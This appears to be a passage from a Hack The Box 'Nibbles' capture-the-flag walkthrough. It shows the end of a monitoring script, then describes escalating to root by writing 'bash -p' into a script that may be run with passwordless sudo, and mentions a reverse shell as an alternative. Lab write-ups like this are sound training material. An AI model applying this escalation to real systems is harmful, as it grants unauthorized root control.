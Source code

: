 ```bash
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

Apparently we can run sudo as root with no password for this script. We have all permissions over that file, so we can just inject a bash execution or a revshell to get a root shell:

```bash
nano monitor.sh

# Add the following line at the beginning:
bash -p

# Save the file and execute as root:
sudo monitor.sh

#Enjoy the root shell
```

My output was a mess so I clear the terminal and get the root flag:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/nibbles/4_0_root.png" width="90%"/>
</p>


